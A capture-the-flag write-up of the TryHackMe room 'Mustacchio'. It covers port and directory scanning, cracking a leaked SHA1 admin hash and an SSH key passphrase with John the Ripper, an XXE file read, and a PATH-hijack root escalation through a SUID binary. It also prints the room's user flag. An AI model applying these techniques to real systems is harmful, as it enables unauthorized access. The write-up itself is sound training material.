





# Mustacchio
**Date:** February 15th 2022

**Author:** j.info

**Link:** [**Mustacchio**](https://tryhackme.com/room/mustacchio) CTF on TryHackMe

**TryHackMe Difficulty Rating:** Easy


<br>

## Objectives
- user.txt flag
- root.txt flag

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -sC -sV -A -T4 10.10.24.162`

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Mustacchio | Home
8765/tcp open  http    nginx 1.10.3 (Ubuntu)
|_http-title: Mustacchio | Login
```

I was not able to pick up port **8765** until I ran the all ports scan after the fact.

<br>

### Gobuster Scan

`gobuster dir -u http://10.10.24.162 -t 100 -r -x php,txt,html -w dir-med.txt`

```
/gallery.html         (Status: 200) [Size: 1950]
/index.html           (Status: 200) [Size: 1752]
/blog.html            (Status: 200) [Size: 3172]
/images               (Status: 200) [Size: 6167]
/contact.html         (Status: 200) [Size: 1450]
/about.html           (Status: 200) [Size: 3152]
/custom               (Status: 200) [Size: 1115]
/robots.txt           (Status: 200) [Size: 28]  
/fonts                (Status: 200) [Size: 1143]
/server-status        (Status: 403) [Size: 277]
```

<br>

## Website Digging

Visiting the main website page:

<br>


<br>

The **robots.txt** file does not show anything interesting, nor does looking at the view source for each of the html pages.

I take a look in **/custom/js** directory and find a file called **users.bak** which appears to be a backup of the MySQL database users. Downloading the file to my system and running a `strings` on it:

```
SQLite format 3
tableusersusers
CREATE TABLE users(username text NOT NULL, password text NOT NULL)
]admin1868e36a6d2b17d4c2745f1659433a54d4bc5f4b
```

You can also use the `sqllitebrowser users.bank` command to open it up in a GUI based reader:

<br>


<br>

I take the password hash and identify it as **sha1** over on the [**hashes.com identifier**](https://hashes.com/en/tools/hash_identifier):

<br>


<br>

I start up **John the Ripper** and crack the hash which takes less than 10 seconds:

`john --wordlist=rockyou.txt --format=raw-sha1 hash.txt`

I spend some time capturing requests in **burp** and don't find anything vulnerable, and there are no file uploads or loging pages as of yet so I move on.

I decide to check out port **8765** from the nmap scan earlier and it's a login page!

<br>



<br>

Logging in with the admin credentials works:

<br>



<br>

Looking at the page source reveals a user name:

```
<!-- Barry, you can now SSH in using your key!-->
```

<br>

## XXE Exploit

I post a test comment and capture it in **burp**:

<br>



<br>

We can see whatever is typed in the comment box gets passed as XML back to the web server.

I also see a comment in the response back to this request that looks interesting:

```HTML
   <script type="text/javascript">
      //document.cookie = "Example=/auth/dontforget.bak";
```

Going to the **auth/dontforget.bak** link shows us an XML document:

```XML
<?xml version="1.0" encoding="UTF-8"?>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>his paragraph was a waste of time and space. If you had not read this and I had not typed this you and I could’ve done something more productive than reading this mindlessly and carelessly as if you did not have anything else to do in life. Life is so precious because it is short and you are being so careless that you do not realize it until now since this void paragraph mentions that you are doing something so mindless, so stupid, so careless that you realize that you are not using your time wisely. You could’ve been playing with your dog, or eating your cat, but no. You want to read this barren paragraph and expect something marvelous and terrific at the end. But since you still do not realize that you are wasting precious time, you still continue to read the null paragraph. If you had not noticed, you have wasted an estimated time of 20 seconds.</com>
</comment>
```

Now that we have a capture of the request in **burp** and the template for an xml document we should be able to build our own XML cdoe and get **file disclosure** on the server.

I look up **XXE** examples on the [**OWASP site**](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing) and craft / send my request in **burp** like this:

<br>



<br>

## Barry

We now have a **private ssh key** for user **barry** that we can attempt to login with it. I copy the key out and place it in a file on my system called id, `chmod 600 id` and then try and ssh over:

`ssh -i id barry@10.10.72.4`

```
Enter passphrase for key 'id': 
barry@10.10.72.4: Permission denied (publickey).
```

Looks like we'll need to crack the passphrase. I run **ssh2john** to convert it to a crackable format in **John the Ripper**.

`ssh2john.py id > hash`

Then I crack it:

`john --wordlist=rockyou.txt hash`

The password ends up cracking very quickly.

I ssh back over with `ssh -i id barry@10.10.72.4` and enter the passphrase:

```
Enter passphrase for key 'id': 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-210-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

34 packages can be updated.
16 of these updates are security updates.
To see these additional updates run: apt list --upgradable


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

barry@mustacchio:~$
```

I check for the **user.txt** flag and get it:

```
barry@mustacchio:~$ cat user.txt
62d77a4d5f97d47c5aa38b3b2651b831
barry@mustacchio:~$ pwd
/home/barry
barry@mustacchio:~$ ls
user.txt
barry@mustacchio:~$ cat user.txt
<REDACTED>
```

<br>

## System Enumeration

I check for any files with **caabilities set** but there are none:

`getcap -n -r / 2> /dev/null`

We have a total of 3 users on the system:

`cat /etc/passwd | grep bash`

```
root:x:0:0:root:/root:/bin/bash
joe:x:1002:1002::/home/joe:/bin/bash
barry:x:1003:1003::/home/barry:/bin/bash
```

I run a search for any **SUID** flagged files that look out of place:

`find / -type f -perm /4000 -printf "%M   %p"\\n  2> /dev/null`

```
-rwsr-xr-x   /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
-rwsr-xr-x   /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x   /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x   /usr/lib/snapd/snap-confine
-rwsr-xr-x   /usr/lib/openssh/ssh-keysign
-rwsr-xr--   /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x   /usr/bin/passwd
-rwsr-xr-x   /usr/bin/pkexec
-rwsr-xr-x   /usr/bin/chfn
-rwsr-xr-x   /usr/bin/newgrp
-rwsr-sr-x   /usr/bin/at
-rwsr-xr-x   /usr/bin/chsh
-rwsr-xr-x   /usr/bin/newgidmap
-rwsr-xr-x   /usr/bin/sudo
-rwsr-xr-x   /usr/bin/newuidmap
-rwsr-xr-x   /usr/bin/gpasswd
-rwsr-xr-x   /home/joe/live_log
-rwsr-xr-x   /bin/ping
-rwsr-xr-x   /bin/ping6
-rwsr-xr-x   /bin/umount
-rwsr-xr-x   /bin/mount
-rwsr-xr-x   /bin/fusermount
-rwsr-xr-x   /bin/su
```

The **/home/joe/live_log** looks interesting. Let's check that out.

When I run the program it displays HTTP requests sent over, and I see the one I sent over to exploit **XXE** earlier. Other than that it doesn't seem to let me do anything and I have to break out of the program to get back to the command line. Let's examine it further with `strings live_log`. A lot shows up but this sticks out:

```
tail -f /var/log/nginx/access.log
```

Well, that explains why I had to break out of the program.

<br>

## Root

Given it doesn't specify the full path to the tail executable we can try and exploit the **PATH** variable and run our own **tail** command:

I run the following to make **/tmp** the first location in my **PATH** variable:

`export PATH=/tmp:$PATH`

I then change to the **/tmp** directory and create a file called **tail** with the following inside of it:

```
#!/bin/bash

/bin/bash
```

Change it to executable with `chmod +x tail`.

And then run change back to the **joe** home directory and run the **live_log** script again:

`./live_log`

```
barry@mustacchio:/home/joe$ ./live_log
root@mustacchio:/home/joe# whoami
root
```

And there we have it!

The **root.txt** flag is in the usual **/root** directory for the taking.

<br>



<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap** and **gobuster**
- Finding website credentials in a MySQL backup file
- Cracking those credientials with **John the Ripper**
- Using **Burp Suite** to capture and modify requests
- Using a **XXE** vulnerability to disclose a private .ssh key
- Using **ssh2john** and **John the Ripper** to crack the passphrase on the private .ssh key
- System enumeration to find an out of the ordinary script with **SUID** set
- Figuring out what that script does and then exploiting the **PATH** variable to escalate privileges to root

<br>

Many thanks to:
- [**zyeinn**](https://tryhackme.com/p/zyeinn) for creating this CTF.
- **TryHackMe** for hosting this CTF.

<br>

You can visit them at: [**https://tryhackme.com**](https://tryhackme.com)